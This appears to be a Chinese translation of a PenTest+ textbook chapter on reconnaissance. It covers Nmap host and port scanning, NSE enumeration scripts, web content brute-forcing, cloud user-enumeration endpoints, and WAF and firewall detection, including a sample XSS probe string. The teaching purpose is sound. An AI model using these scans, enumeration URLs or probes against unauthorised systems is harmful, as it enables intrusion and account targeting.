渗透测试人员已知的最著名的开源网络安全扫描工具之一是 Network Mapper（Nmap）。Nmap 是一个命令行工具，利用各种网络协议和高级功能来调查主机的开放 TCP 和 UDP 端口、操作系统指纹识别、提取服务横幅等。让我们谈谈 Nmap 和其他工具如何用于这些活动。枚举是建立与目标系统的主动连接以查找潜在攻击向量的过程。这包括尝试查找主机、服务、域名、URL 和有效用户进行攻击。让我们从主机枚举开始。主机发现是一种主动扫描技术，用于辅助信息收集过程。目标是识别网络上存活且正在监听的主机。表 2-4 列出了通常用于进行主机信息收集练习的常见 Nmap 标志。



**表 2-4** Nmap 主机发现选项


**考试提示** Nmap 是渗透测试人员的重要工具，且会在考试中涉及。请确保你理解其各种用途、选项和扫描输出。本章涵盖的各种 Nmap 标志和选项均列在 PenTest+ 考试大纲中。不过，要获取完整的命令选项列表，请不带参数执行 `nmap` 命令，或使用 `nmap -h`。

##### Ping 扫描

Nmap Ping 扫描（`-sn` 或 `-sP` 标志）是确定主机在网络上是否存活的简单方法。只要有可能，Nmap 将使用 ARP 扫描。你可以指定 `--send-ip` 来强制 Ping 扫描使用互联网控制消息协议 (ICMP) 代替。这会向网络上的主机发送探测包。主机使用 ICMP 消息通过网络进行通信，这些消息被定义为特定的类型和代码，用于确定通信的状态。Ping 扫描会向目标主机发送类型 8 消息（回显请求）。如果主机存活，它将向请求源发送类型 0 消息（回显应答）进行响应。表 2-5 涵盖了 ICMP 常用的一些控制消息，图 2-22 展示了使用 ICMP 对远程网络进行 Ping 扫描的情况。



**表 2-5** Nmap 主机发现选项



**图 2-22** Ping 扫描

Nmap 输出可以导出为不同格式。在 Linux 操作系统中处理 Nmap 扫描数据时，可 grep 格式非常有用。`grep` 命令（在 `awk` 的一些帮助下）可用于从扫描输出中搜索模式并将结果转储到 STDOUT。我们还可以将 `grep` 命令返回的输出通过管道传递给 `awk`，仅打印与我们的搜索标准相关的字段。在本例中，我们想调查网络上所有“Up”（存活）的主机。图 2-23 展示了如何使用 `grep` 和 `awk` 打印网络上发现的存活 IP 地址。搜索返回的 IP 地址列表可以放入文本文件，并在后续的 Nmap 扫描中使用，以仅针对网络上存活的那些主机。



**图 2-23** 网络上的存活主机

##### 地址解析协议 (ARP) 扫描

在本地子网中，机器通过 MAC 地址而非 IP 地址进行寻址。为了确定数据包的正确目标 MAC 地址，ARP 会检查已知 IP 地址和 MAC 地址配对的本地缓存，如果不存在，则尝试解析它。为了解析它，会向网络上的广播地址 (FF:FF:FF:FF:FF:FF) 发送一个数据包，询问“谁拥有这个 IP，告诉我的 IP”。拥有该 IP 的主机会向请求者发送定向 ARP 回复，其中包含正确的映射。请求者将其添加到缓存中，以便在一段固定时间内记住它。在过期之前，该主机不必在网络上重新解析该配对。

作为渗透测试人员，你可以利用这一点来发现网络上的其他主机。假设你已攻陷一台 Windows 系统并想识别其他目标。从系统控制台，你可以发出 `arp -a` 命令，获取该系统通信过的 IP 地址和 MAC 地址列表。从网络层面，你可以使用 Linux 中的 `arp-scan` 等工具发送 ARP 请求。^3 正如你接下来所见，通过针对一系列 IP 询问谁拥有给定 IP，任何带有有效 MAC 地址的响应很可能都是网络上的真实目标。



主机发现可能是一项难以完成的任务。然而，Nmap 提供了更多发现选项，利用其他协议和技术，例如禁用 Ping (`-Pn`) 并使用 TCP 和 UDP 等其他协议（以防防火墙阻挡 ICMP 数据包），甚至仅使用列表扫描 (`-sL`)。Nmap 列表扫描是一种在网络块中枚举每个可能的 IP 地址，然后进行反向 DNS 查询以查看主机是否在 DNS 中注册了完全合格域名 (FQDN) 的有用技术。知道某 IP 地址在 DNS 中注册是有用的信息，因为这表明该 IP 很可能是网络上的有效主机，因为有人在乎将其注册在 DNS 中。


**提示** Nping ([`nmap.org`](https://nmap.org)) 是 Kali 中另一个可用的工具，它提供了使用 ICMP、ARP 和其他协议通过网络探测主机的高级选项。该工具不在 CompTIA PenTest+ 考试范围内；但是，它提供了 Nmap 之外的额外功能，用于复杂的主机发现和绕过网络层防御。

##### 其他协议

在网络上，任何广播的内容都是渗透测试人员收集的合法目标。通过被动收集广播流量来识别目标是枚举主机资源的另一种有效方式。只要你不回发流量，许多人会将其视为被动信息收集，但因为它需要连接到网络，从技术上讲，你仍在某个层面上直接与目标进行交互。图 2-24 展示了一个使用 Responder 的分析模式基于广播协议流量观察网络上活跃主机的示例。



**图 2-24** Responder.py -I eth0 -A（仅分析模式）

#### 服务识别与指纹识别

服务枚举的方式与主机枚举非常相似，即你尝试连接到监听服务，或监听来自该服务的流量。如果你想了解更多呢？服务扫描只是通过网络向主机提出一系列问题以引出响应。服务响应的方式，包括时序、协议实现和横幅，可能会告诉你更多关于软件版本和服务背后设备的信息。

################ 端口扫描方法

端口扫描的目的是评估端口的状态。一旦你确定了开放端口和服务的列表，就可以确定你的行动计划。端口可以是开放、关闭或被过滤（可能被防火墙阻挡）的。面向连接的扫描使用 TCP 协议，评估基于 TCP 的端口和服务的状态，且最为可靠。UDP 扫描遵循一个不太有利的成功模式，因为它们几乎无法可靠地判断端口是否在网络上可用。开放的 UDP 端口不会对扫描请求做出响应。关闭的 UDP 端口会响应 ICMP 类型 3“端口不可达”消息。如果未收到目标主机的消息，Nmap 将推断该端口为开放或被过滤。


**提示** 正如文中所述，监听在 UDP 端口上的服务通常不会发送响应来确认端口开放，但偶尔它们会发送响应，这有助于验证端口是开放的。然而，如果没有任何返回，Nmap 将显示端口为 open|filtered。该端口可能是开放的，也可能是防火墙应用的数据包过滤器阻挡了通信。无论如何，都可以将版本检测选项 (`-sV`) 应用于命令语法，以帮助确定开放端口与关闭端口。


###### Nmap 扫描选项与性能

不同的扫描选项有助于提高端口扫描的整体性能。在渗透测试项目中，时间至关重要。增加扫描开销（如版本检测 `-sV`）可能会增加完成扫描所需的时间。不过，Nmap 提供了时序和性能选项来帮助提高扫描效率。这些选项允许用户指定发送给目标的探测包数量，或引用超时参数（默认以秒为单位）。更直接的方法是使用时序模板（`-T<0-5>`），让 Nmap 自动确定时序值。Paranoid（0，偏执）和 Sneaky（1，隐蔽）模板用于规避 IDS 和防火墙，而 Polite（2，礼貌）模板用于节约目标机器的带宽和资源利用率。Aggressive（4，激进）和 Insane（5，疯狂）模板用于追求速度而非准确性。Normal（3，正常）模板是使用 Nmap 扫描时的默认模板。任何其他基于性能的选项都将覆盖所选的模板。表 2-6 描述了一系列扫描方法，这些方法既常见又与通过网络发现主机的开放端口和服务息息相关。表格最后几行涉及基于性能的扫描选项。



**表 2-6** Nmap 端口扫描选项

###### 常见端口与协议

渗透测试人员应熟悉常见的*系统*、*注册*和*动态*端口。系统端口是指 0 到 1023 之间的任何端口。这些端口在操作系统中需要 root 权限或系统级权限才能运行，并跨操作系统平台托管标准化的应用服务。注册端口是指 1024 到 49151 之间的端口，属于用户级端口，托管的应用服务运行时不需要提升的权限。动态端口是指高于 49151 的任何端口，处于私有分配范围内；它们通常不在用户范围内。表 2-7 提供了组织网络中常见的常用端口和协议列表。



**表 2-7** 常见端口与协议


**警告** 让未使用的端口和服务保持开放并可供网络上不受信任的主机访问，属于糟糕的网络安全卫生习惯。鼓励客户遵循最小权限原则，能在很大程度上降低组织的整体网络安全风险。渗透测试报告中发现的大多数缓解措施，很可能都可以通过禁用网络资源或对其应用更好的访问控制来缓解。

################ TCP 扫描

TCP（RFC 793 - 传输控制协议）面向连接，可在两个网络主机之间提供可靠的数据交换。这种扫描类型称为全连接扫描，它使用操作系统的网络功能与目标主机执行 TCP 三次握手。如果未指定其他扫描选项，TCP 扫描是使用 Nmap 时的默认扫描方法。它是最可靠的扫描类型；然而，它提供的底层控制较少，且在较大网络上完成扫描可能需要更多时间，这使得它效率很低。图 2-25 展示了攻击者与目标之间逻辑上的 TCP 三次握手。



**图 2-25** TCP 扫描

当扫描在未启用服务检测但启用了 `--reason` 或 `-vv` 标志时执行，Nmap 会提供将端口列为开放、关闭或被过滤的原因。不过，我们知道来自目标的 SYN-ACK 响应通常意味着该端口在网络上可用。使用 Nmap 进行操作系统检测可能有点棘手，以至于它属于最佳猜测场景。利用您对常见端口和服务及其关联操作系统的知识，在判断目标是 Linux 主机还是基于 Windows 的主机时大有裨益。例如，看到一台主机开放了 `22/tcp` 端口，通常意味着目标是基于 Linux 的主机。图 2-26 展示了一个全连接扫描的示例。如果一台主机开放了 `3389/tcp` (RDP)，则可能意味着目标是基于 Windows 的主机。这种知识除了提供验证 Nmap 操作系统指纹识别的直观能力外，别无他用。



**图 2-26** 全连接扫描

###### 半开扫描

TCP SYN 扫描是最流行的扫描方法，因为它能快速有效地同时扫描数千台主机。这种扫描方法通常被称为“半开”扫描，因为它从不完成三次握手。图 2-27 展示了半开扫描期间攻击者与目标之间发生的通信的逻辑示例。SYN 扫描提供了对其生成数据包的完全控制，并允许用户控制超时响应时间以加快扫描性能。用户必须拥有 root 或管理员权限才能执行 SYN 扫描。



**图 2-27** TCP SYN 扫描

与之前的 TCP 扫描不同，版本检测标志能从目标主机提供有价值的信息，因为回复消息中包含了 Banner 信息。Nmap 会在 Version（版本）列下披露从目标接收到的 Banner。图 2-28 展示了一个带有版本检测的 Nmap SYN 扫描。在某些情况下，服务 Banner 会泄露操作系统信息，这在 SSH 服务中很常见。这使得操作系统指纹识别变得更加容易。


**图 2-28** 带版本检测的 SYN 扫描


**注意** SYN 洪水攻击（半开攻击）是一种拒绝服务攻击，恶意用户向目标发送一系列 SYN 请求，使服务对合法流量无响应。

################ UDP 扫描

正如本章前面所述，UDP 扫描无连接且可能非常不可靠。然而，UDP 服务通常部署用于支持需要向广播域内的主机分发信息的服务。DNS、DHCP 和 NetBIOS 等常见服务依赖广播消息，因为消息的预期接收者可能未知。无论如何，渗透测试人员应首先针对组织网络中常见的 UDP 端口，随后在从网络中进一步枚举信息后，可能针对其他感兴趣的 UDP 端口。图 2-29 展示了针对典型 NetBIOS 端口的 UDP 端口扫描。


**图 2-29** UDP 扫描

在大多数情况下，如果发现端口开放，Nmap 会显示默认服务标识符（如果未通过服务版本检测 `-sV` 标志获取到 Banner）。Nmap 在随安装包附带的 `nmap-services` 数据库中列出了 2,200 多个已知服务，该数据库会随着新服务可被指纹识别而定期更新。

Nmap 脚本引擎 (NSE) 是一个用 Lua 编写的 Nmap 扩展框架，有助于自动化各种网络任务，包括编写脚本来摆弄和处理网络服务。某些脚本能够执行特定任务，例如提取版本信息以及检查服务是否配置为允许匿名登录。图 2-30 展示了匿名 FTP Nmap 脚本的输出，该脚本验证了远程主机上启用了匿名登录。在 Kali 中，所有脚本均位于 `/usr/share/nmap/scripts` 目录下。每个 NSE 脚本都提供 `head`（头部）、`rule`（规则）和 `action`（动作）。


**图 2-30** Nmap 脚本


头部提供元数据信息，例如参数信息、描述以及执行所需的依赖项。规则是一个 Lua 方法，用于确定是否应执行某个操作，而操作则是脚本的功能。大多数被认为执行安全的 NSE 都可以通过典型扫描（使用 `-sC` **标志**）来包含。但是，如果你想针对组织的内部 DNS 服务器执行 DNS 缓存窥探扫描以发现可能的社交网站，则必须从命令行专门调用该脚本。图 2-31 演示了此类扫描。


**图 2-31** Nmap DNS 缓存窥探


**提示** 你可以在 [`nmap.org`](https://nmap.org) 找到有关 Lua 语言和 NSE 的更多信息。创建自己的 NSE 相当简单，Nmap 网站上的脚本编写教程页面可以帮助你入门。

################ Web 目标识别

识别 Web 服务器最基本的方法是查看 HTTP 响应头中的 `Server` 字段——不需要复杂的算法。Netcat 无疑是可用的最有用且被低估的工具之一，可用于打开到远程主机的 TCP 连接：


Netcat 还可用于与数据库服务器（如 MySQL）建立 TCP 连接，以从相应服务中提取横幅信息：


根据服务器响应，我们可以看到该主机正在 Ubuntu Linux 操作系统上运行 Apache 和 MySQL。仅凭这些信息，我们就可以针对已识别的服务版本调查可能的漏洞和相关的 CVE。

##### Web 内容枚举

一旦识别出 Web 服务器，你就会想要枚举可用的资源，包括网页和文件名。实现这一点的两种方法是爬取或暴力破解。

###### 爬取与抓取

爬取（或蜘蛛爬行）是指获取一个网页并跟随该网页上的所有链接，然后爬取那些页面上的链接，以此类推的过程。当然，你可以手动执行此操作，但那叫浏览。爬取是解决此问题的一种更自动化的方法。在第 5 章 中，我们将详细讨论两个可以执行此操作的工具：CeWL 和 Burp Suite。目前，请理解爬取网站可以帮助你发现表单、登录界面和其他可测试的内容。Burp Suite 将尝试自动评估内容以查找可能的漏洞，并高亮显示这些项目以供人工检查。^(4)

爬取旨在寻找新页面，而抓取则查看已知网页的内容。其目标是获取网页并从站点收集术语和信息以供分析。这可用于尝试根据常见术语自动识别网页，或者你可以将抓取到的一组术语输入字典，并用它们尝试暴力破解更多页面、站点或文件。

###### 暴力破解

当你有一个起始网页时，爬取相当简单。然而，这会遗漏任何未被你已知页面直接链接的内容。大量文档、门户和表单可能无法从你爬取的路径访问，也可能未被公共搜索引擎索引。为了找到其他页面，你可以使用填充了大多数 Web 技术中常见名称的字典或词列表来枚举信息。一个流行的工具选择叫作 DirBuster，它是一个基于 Java 的框架。除了通过插件集成到 Burp Suite 中，DirBuster 还包含在 Kali Linux 中。Kali Linux 还提供了一个位于 `/usr/share/dirbuster/wordlists` 的通用词列表。图 2-32 提供了一个使用 DirBuster 测试 Web 服务器上已知目录和文件的示例。可以生成扫描结果的完整报告，格式为 `.txt`、`.xml` 或 `.csv`。


**图 2-32** OWASP DirBuster

###### 人工检查

由于扫描器在理解上下文和解释响应方面的能力有限，你需要人工检查漏洞扫描的结果，并亲自查看网站。例如，扫描器无法确定其识别出的表单或页面的相关性。你选择处理登录门户的方式可能不同于处理邮件表单的方式。另一个例子是 `robots.txt` 文件。

`robots.txt` 文件位于主机的顶级目录。它用于限制 Google 和 Bing 等网络爬虫的索引功能。网络爬虫在遍历网站之前会首先查找此文件以获取指令。但这提供了一个可能的统一资源标识符 (URI) 列表，有助于发现隐藏的目录和文件列表。站点地图文件 (`sitemap.xml`) 和跨域文件 (`cross-domain.xml`) 是拥有大量动态页面的站点上信息泄露的另外两个例子，这些文件提供站点信息、超链接和元数据。通用经验法则：如果对你来说很容易，对坏人来说也很容易。虽然许多自动扫描器会注意到这些文件的存在，甚至主动将目标添加到其扫描列表中，但由渗透测试人员来确定其中内容的相关性。

###### 分析错误

当 Web 服务器、Web 应用程序和数据库收到无法处理的请求时，会生成错误代码和堆栈跟踪。软件通常开发有异常处理程序来隐藏或掩盖这些错误的存在，因为内部错误可能导致信息泄露、版本信息，甚至更严重的漏洞。Web 服务器有五个状态代码系列，包含许多不同的单独状态代码，它们根据服务器接收或处理请求的方式而触发（表 2-8）。你可能可以利用应用程序响应的差异来枚举有效用户，例如，查看提供虚假用户与有效用户时响应的差异。在第 5 章 中，我们将详细讨论使用工具执行诸如暴力破解登录界面和枚举 Web 服务器用户等操作。


**表 2-8** HTTP 状态代码

数据库错误遵循相同的逻辑——如果无法响应用户的请求，它将产生一个错误供解读。Oracle、MySQL 和 Microsoft SQL (MSSQL) 等 SQL 数据库具有常见错误，这些错误可以激发渗透测试人员的好奇心，去调查可能的 SQL 注入缺陷。MySQL 错误以四位数的错误编号开头，后跟“-”和错误描述。MSSQL 错误包含错误编号、严重级别、错误消息字符串、行号、过程名称和状态，这些可以提供抛出错误的源代码位置。Oracle 错误包含带有错误代码的前缀（即 `ORA-0001`），后跟问题描述。


运行传统网络的组织可能拥有低带宽连接，在扫描时面临更大的服务中断风险。大多数安全扫描工具都提供限制扫描性能的选项，以减轻受影响网段的负担。API 用于软件应用程序中以接收请求并发送响应。图 2-33 展示了三种基本类型的 API。软件开发人员可以对特定的 API 方法实施速率限制，以帮助提高应用程序性能并降低拒绝服务 (DoS) 攻击的可能性。请确保你对所测试的 API 有良好的理解，因为可能需要请求或购买 API 密钥以启用额外查询，从而完成漏洞扫描。例如，Amazon Web Services (AWS) ([`aws.amazon.com`](https://aws.amazon.com)) 允许开发人员在访问云中的 RESTful 服务时使用安全的 API 网关。如果没有合适的密钥，API 服务的测试将仅限于不需要身份验证的公开可访问方法。支持认证扫描的漏洞扫描器最适合那些需要身份验证的远程服务。


**图 2-33** 应用程序编程接口

##### 用户枚举

你可能会针对通过用户枚举攻击识别出的登录接口进行攻击。其思路是查看登录尝试返回的响应，在使用有效用户与无效用户时是否不同。Web 应用程序可能会返回不同的网页，服务对无效登录的响应时间可能更长，^(5) 或者系统可能会显示不同的响应代码或屏幕。OWASP 记录了针对 Web 应用程序的这种攻击方法，^(6) 但这也适用于其他暴露的登录和身份验证接口，尤其是在云环境中。

假设你在被动侦察期间发现了一款正在使用的云电子邮件。某些云提供商可能允许通过登录门户进行用户枚举，如 图 2-34 所示，或通过登录端点进行，例如用于 Microsoft 服务的 `https://login.Microsoft.com/common/oauth2/token`。你可以使用云提供商的端点来尝试枚举有效用户，或使用以下 URL 确认在 OSINT 搜索中识别出的用户是否存在：


**图 2-34** Google Mail 用户枚举

- Microsoft Online：`https://login.microsoftonline.com/getuserrealm.srf?login=username@companyname.com&xml=1`
- Microsoft O365：`https://outlook.office365.com/autodiscover/autodiscover.json/v1.0/username@companyname.com?Protocol=Autodiscoverv1`


**注意** 要使用这些端点，你需要将上述示例中的 `username@companyname.com` 更改为你尝试调查的值。

如果你有网络访问权限但无法访问任何活动系统，你可以尝试使用 Nmap 枚举脚本来枚举用户或共享。Nmap 为发往特定端口和服务的目标地址构造网络数据包，并监控来自每个主机的响应。该工具具有态势感知能力——通过监控网络速度和延迟的变化——并将相应地适应环境。Nmap 通过 NSE 支持扩展功能。这些脚本（`.nse` 扩展名）随 Nmap 安装原生提供，并为额外的网络服务和漏洞检测提供支持。Nmap 拥有多种针对不同协议的用户枚举脚本，大多以“enum”标识。例如，`krb5-enum-users` 尝试通过针对 Kerberos 服务暴力破解用户名来发现有效的 Kerberos 用户。带有输出的示例用法如下：


还有用于枚举 drupal、oracle、SIP、SMB 和 SMTP 中用户的 Nmap `.nse` 脚本。对于共享和文件枚举，Nmap 提供 tftp 共享的猜测功能，例如网络设备的配置文件。`tftp-enum` 脚本的执行和输出可能如下所示：


你也可以尝试使用 Nmap `cics-enum` 脚本枚举大型机事务 ID，或使用 `citrix-enum-apps` 脚本枚举 Citrix 应用程序。对于共享，`smb-enum-shares` 适用于启用了 SMB 的服务器。然而，枚举并不完全局限于 Nmap。还有其他工具可以检查暴露服务中的用户。例如 Metasploit，它拥有诸如 `auxiliary/admin/mssql/mssql_enum_sql_logins` 之类的模块，可从暴露的服务中枚举登录信息。^(7)

##### 防御检测与检测规避

在某个时刻，你将遇到阻碍你的安全控制。如果你最终无意中攻击了防御机制而非目标，可能会得到令人困惑、不一致或虚假的结果。例如，负载均衡器通常部署在高流量站点上。它们可能会将流量分发到后端的多台服务器上。如果这些服务器中的任何一台配置不同，你每次请求资源时可能会得到不同的结果。

###### 检测

这些控制并不总能通过自动化手段可靠地检测到，但你可以关注一些迹象：跨请求的 HTTP 标头差异（其顺序或内容）、跨请求的 HTTP 响应代码差异、意外的 HTTP 标头、指示防御控制的 Cookie，或因系统间时间漂移导致的时间戳差异。如 图 2-35 所示，工具 `lbd`（Kali 自带）检查其中几个特征以尝试检测负载均衡器，但这些方法不能保证可靠。Tenable 的 Nessus（一款漏洞扫描器）也提供插件 ID 1224，尝试基于其中一些特征检测负载均衡器。我们将在本章后面更多地讨论 Nessus。


**图 2-35** lbd 工具的输出

Web 应用程序防火墙 (WAF) 旨在拦截 Web 请求并阻止常见的攻击模式。例如，Amazon 在其博客上为使用 AWS WAF 的客户提供了关于自定义响应的建议：`https://aws.amazon.com/blogs/security/customize-requests-and-responses-with-aws-waf/`。在实践中，WAF 可能难以检测，因为有时很难将 WAF 拦截与正常的应用程序验证区分开来。像 Wafalyzer^(8) 和 wafw00f^(9) 这样的工具可以通过发送请求并查看标头、Cookie 值和错误消息来尝试识别 WAF。如果系统没有经过大量定制，这些工具将使识别变得更容易。如果经过大量定制，则规则可能不匹配，你将不得不手动判断是否存在 WAF。

最简单的方法是挑选一些明显的恶意字符串，并将它们放入 URI 中没有任何应用程序逻辑的字段里。例如，如果 URI 中没有名为“likebear”的字段，你可以添加 `&likebear=<script>alert(1)</script>` 并查看它生成什么样的错误。重复此操作并改变使用的字符串类型，将有助于你识别是否有规则在评估你的提交。这可能无助于识别 WAF 的具体版本，但错误状况应该能提供信息。HTTP 返回代码、重定向 URL 甚至响应主体可能提供额外细节。使用代理工具（如 Burp Suite 或 ZAP，见 第 5 章）监控流量，查看标头、重定向器或其他信息是否已发送但对最终用户不可见。


####### 防火墙

防火墙通常更容易识别。某些防火墙会丢弃不被允许的流量，在这种情况下，如果你发送一条消息，将不会收到成功响应或 ICMP 消息。如果防火墙返回 ICMP 消息，且你对某台主机有一个正常端口和一个异常端口，你可以查看数据包上的 TTL 来确定差异。让我们通过三个使用 `scanme.nmap.org` 的示例来看看。

在第一个使用端口 22 的示例中，我们看到返回了一个 SYN-ACK 数据包（SA），意味着该端口是开放的。它的 TTL 为 48。没有任何事物干扰了此流量。这是正常的。


在第二个示例中，我们向端口 25 发送一个数据包，但没有任何响应。因为没有返回 ICMP 消息，这意味着由于某种防火墙的显式阻断规则，该流量被阻断了。


对于我们发送的第三个请求，我们看到了两件事。设置了 RST-ACK 标志。这意味着该端口可能被防火墙阻断，或者目标设备未监听该端口。但 TTL 是 50，这很有趣。成功的连接 TTL 是 48，而被阻断的是 50，这表明在此系统前面很可能有一台设备。由于 TTL *会*随每一跳*减少*，这意味着流量在到达服务器本身之前就被阻断了。


###### 规避

针对基于网络的控制的绕过，在很大程度上取决于控制的调优以及运行它的平台。让我们看看负载均衡器的两种工作方式：轮询和持久负载均衡。基于轮询的负载均衡接收请求，并按轮询方式将它们逐个发送到系统池中。取决于实现方式，用户不能保证每次都会到达同一个系统。这意味着你要么需要攻陷池中的所有系统，要么攻陷一个系统，然后发起大量请求，直到再次被路由到已攻陷的系统。使用持久负载均衡时，设备会频繁生成并存储某种形式的会话变量，并用它来确定给定会话的目标系统。虽然这保证了会话一致性，但这可能被滥用。例如，如果此会话变量是 Cookie 的一部分，它能否被重放或篡改，以定位负载均衡器后的特定系统？

你可能关心的另一个原因是，漏洞利用可用于攻陷负载均衡器，然后更改配置以使攻击者受益。曾被公开滥用的一种攻击是 Big-IP RCE，它利用暴露的管理接口，让攻击者获得 RCE 并穿过设备建立隧道或接管设备（[`support.f5.com/csp/article/K02566623`](https://support.f5.com/csp/article/K02566623)）。

